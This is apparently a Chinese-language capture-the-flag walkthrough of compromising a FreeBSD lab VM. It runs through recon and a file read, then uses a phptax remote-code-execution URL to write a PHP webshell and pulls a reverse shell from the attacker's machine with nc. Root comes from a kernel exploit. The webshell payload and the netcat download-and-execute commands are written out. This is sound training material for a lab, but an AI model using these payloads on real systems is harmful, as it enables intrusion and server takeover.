


# 一、信息收集

1. 这台靶机有点问题，启动前需要先将网卡删除然后重新添加，否则会获取不到ip。启动后先进行主机发现，如下，kali的ip是192.168.0.106，那么靶机应该就是107了
   
   ```shell
   sudo arp-scan -l
   ```
   
    

2. 端口扫描，开放了22、80、8080端口，web服务中间件为Apache httpd 2.2.21，系统为FreeBSD， mod_ssl版本为2.2.21，OpenSSL版本0.9.8q， PHP版本5.3.8
   
   ```shell
   nmap -Pn -sV -sC -T4 192.168.0.107
   ```
   
    

3. 扫描一下端口漏洞，没有扫出什么漏洞
   
   ```shell
   nmap --script=vuln 192.168.0.107
   ```
   
    

4. 访问一下各个端口
   
    
    

5. 扫描一下两个web端口的目录，都没有什么东西，F12看一下源码，发现80端口的一个注释
    

6. 访问一下这个URL，界面如下
    

7. 看起来像是显示文件的，随便点开一个看看，发现显示了源码，可能存在文件读取
    

8. 抓包，尝试读取/etc/passwd文件，如下，成功读取
    

9. 再次扫描一下http://192.168.0.107/pChart2.1.3/的目录，发现存在data目录
   

10. 访问data目录，发现存在目录遍历，该目录下存在两个db文件
    

11. 使用上面发现的文件读取获取db文件的内容，看不懂
    
    

12. 尝试读取apache的配置文件，FreeBSD下apache的配置文件默认路径是/usr/local/etc/apache22/httpd.conf，发现对8080端口做了UA头限制
    

13. 修改UA头，重新访问8080端口，发现一个目录
    

14. 访问该目录，似乎是一个生成PDF的
    

# 二、getshell

1. 点击一下URL就变成了192.168.0.107:8080/phptax/index.php?pfilez=1040pg1.tob&pdf=make，有两个参数，尝试修改参数值，看是否可控，经测试发现无回显，开启nc，尝试直接反弹shell，可能操作姿势有问题，没成功，使用searchsploit搜索phptax，发现一个符合条件的exp
     

2. 利用rce漏洞通过浏览器hackbar插件写入一个webshell
   
   ```shell
   http://192.168.0.107:8080/phptax/drawimage.php?field=test.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E";
   ```
   
     

3. 访问shell文件，成功执行命令，权限为www，比较低
     

4. 将php反向shell复制出来，修改ip和端口
   
   ```shell
    cp /usr/share/laudanum/php/php-reverse-shell.php /home/kali/vuln
   ```
   
    

5. 使用以下命令设置 Netcat 侦听器并将 PHP 反向 shell 的内容发送到任何传入请求
   
   ```shell
   nc -lvnp 4444 < php-reverse-shell.php
   ```
   
    

6. 在靶机上运行以下Netcat 命令连接到侦听器并将数据重定向到 php-reverse-shell.php 文件
   
   ```shell
   nc 192.168.0.106 4444 > php-reverse-shell.php
   ```
   
    

7. 访问data的目录遍历，看php-reverse-shell.php文件是否已经被成功下载了
    

8. 访问php-reverse-shell.php文件执行其中的反弹shell命令，如下，成功获取shell
    

# 三、权限提升

1. uname -a查看系统内核版本，是FreeBSD 9.0内核的
     

2. 搜索该版本内核漏洞，发现存在两个漏洞
     

3. 将exp脚本复制出来，通过nc上传到靶机，通过shell文件执行pwd命令得知web路径
     

4. cd到web路径，gcc编译exp脚本，然后执行编译好的exp二进制可执行文件，如下，成功获取root权限
    
